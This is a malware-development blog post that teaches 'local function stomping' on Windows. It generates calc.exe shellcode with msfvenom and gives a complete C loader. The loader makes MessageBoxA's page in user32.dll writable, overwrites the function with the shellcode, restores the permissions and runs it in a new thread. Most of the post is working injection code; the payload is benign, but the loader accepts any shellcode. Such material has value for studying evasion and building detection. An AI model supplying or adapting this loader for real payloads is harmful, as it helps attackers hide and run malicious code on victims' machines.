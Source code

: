 ```yaml
---
layout: post
title: "Local Function Stomping Injection"
date: 2024-07-29 13:47:00 +0000
tags: [Malware Development]
categories: [Malware Development]
---
```



<!-- # Local Function Stomping Injection  -->

Function Stomping
-------

Function stomping typically refers to overwriting the code or data of a function with different content in its memory space. This can be done to modify the behavior of the function to run as intended by the programmer.

for our purpose of stomping, we will use [MessageBoxA](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-messageboxa#remarks) which would be a better choice because this function is not widely used by operating system or other services. As per Microsoft Documentation MessageBoxA is exported using User32.dll

Firstly, we use msfvenom to create our calc shellcode, which we’ll use to overwrite the memory of messageboxA.

`msfvenom -p windows/x64/exec CMD=calc.exe -f c`

```
char shellcode[] = 
	{ 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50
,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52
,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a
,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41
-------------------<snip> ---------------------------
,0x6f,0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd
,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0
,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff
,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00 };
SIZE_T szshellcode= sizeof(shellcode);
```


After defining an array for the shellcode, our next step is to obtain the address of MessageBoxA. To do this, we begin by loading User32.dll using the [LoadLibraryA](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya) function.

```c
HMODULE hmodule = LoadLibraryA("User32.dll");
```


After obtaining the handle to our DLL, we can use [GetProcAddress](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress) to fetch the address of our exported function.

```c
FARPROC Paddress = GetProcAddress(hmodule, "MessageBoxA");
```

![user32_messageboxa](/assets/img/local_function_stomping/user32_messageboxa.webp)

![textsection_permsission](/assets/img/local_function_stomping/textsection_permission.webp)

Once we have obtained the address of our target function, we need to adjust the permissions to allow writing to that memory page. This is necessary because MessageBoxA resides in the .text section of user32.dll, where memory permissions are typically set to Execute Read Only.

To enable writing to that address, we can adjust the page protection using the [VirtualProtect](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect) function with the PAGE\_READWRITE protection.

```c
if (!VirtualProtect(Paddress, szshellcode, PAGE_READWRITE, &oldprotection)) {
					printf(" virtualprotect failed with errorno %d\\n", GetLastError());
}
```


After successfully changing the permissions to ReadWrite, we can then copy our shellcode, generated from msfvenom, to the address of MessageBoxA simply by using memcpy

```c
memcpy(Paddress, shellcode, szshellcode);
```


Now, we can revert the page permissions back to their original state, which was Execute Read, using VirtualProtect.

```c
VirtualProtect(Paddress, szshellcode, PAGE_EXECUTE_READ, &oldprotection);
```


Afterwards, we can use the [CreateThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread) function to create a new thread that calls the MessageBoxA function, which in turn executes our calc shellcode

```c
CreateThread(NULL, NULL, Paddress, NULL, NULL, NULL);
```


The complete code appears as follows:

```c
    #include <stdio.h>
    #include <stdlib.h>
    #include <Windows.h>
    BOOL stomper(FARPROC Paddress, char* shellcode, SIZE_T szshellcode) {
    DWORD oldprotection = NULL;
    //changing page permission
    if (!VirtualProtect(Paddress, szshellcode, PAGE_READWRITE, &oldprotection)) {
    printf("virtualprotect ReadWrite failed with errorno %d\\n", GetLastError());
    return FALSE;
    }
    //copy shellcode to stomping function address (MessageboxA)
    memcpy(Paddress, shellcode, szshellcode);
    //changing page permission to original
    if (!VirtualProtect(Paddress, szshellcode, PAGE_EXECUTE_READ, &oldprotection)) {
    printf("virtualprotect Execute_Read failed with errorno %d\\n", GetLastError());
    return FALSE;
    }
    return TRUE;
    }
    int main() {
    FARPROC Paddress;
    HMODULE hmodule;
    char shellcode[] = { 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50
    ,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52
    -------------------<snip>------------------------
    ,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0
    ,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff
    ,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00 };
    hmodule = LoadLibraryA("User32.dll");
    if (hmodule == NULL) {
    printf("cannot get handlue to the module\\n");
    goto end;
    }
    Paddress = GetProcAddress(hmodule, "MessageBoxA");
    if (Paddress == NULL) {
    printf("cannot get handle to MessageBoxA\\n");
    goto end;
    }
    printf("The address of MessageboxA is 0x%p\\n", Paddress);
    if (stomper(Paddress, shellcode, sizeof(shellcode))) {
    printf("Shellcode successfully injected.\\n");
    }
    else {
    printf("Shellcode injection failed.\\n");
    goto end;
    }
    //create a thread to execute calc shellcode
    HANDLE hThread = CreateThread(NULL, NULL, Paddress, NULL, NULL, NULL);
    if (hThread == NULL) {
    printf("CreateThread failed with error %d\\n", GetLastError());
    goto end;
    }
    end:
    printf("Press Enter to exit: ");
    getchar();
    }
```


EXECUTION
----------

Getting address of MessageBoxA.

![address_messageboxa](/assets/img/local_function_stomping/address_messageboxA.webp)

Before changing the permission of the page where messageboxA lies i.e. on .text section.

![before_permission](/assets/img/local_function_stomping/before_permission.webp)

After changing the page permission to Read write.

![after_permission](/assets/img/local_function_stomping/after_permission.webp)

Before overwriting the messageboxA with shellcode

![before_overwriting](/assets/img/local_function_stomping/before_writing.webp)

After writing the shellcode

![after_overwriting](/assets/img/local_function_stomping/after_writing.webp)

Completing the Execution

![completing](/assets/img/local_function_stomping/completing.webp)

<!-- **References:**

[LoadLibraryA function (libloaderapi.h) — Win32 apps | Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)

[VirtualProtect function (memoryapi.h) — Win32 apps | Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect)

[Function Stomping Injection | Hacking (gitbook.io)](https://sergio-f20-notes.gitbook.io/hacking/4.-exploitation/payloads-file-transfer-coding-maldev-exploitdev/windows-maldev/function-stomping-injection)

[MessageBoxA function (winuser.h) — Win32 apps | Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-messageboxa#remarks)

[GetProcAddress function (libloaderapi.h) — Win32 apps | Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress) -->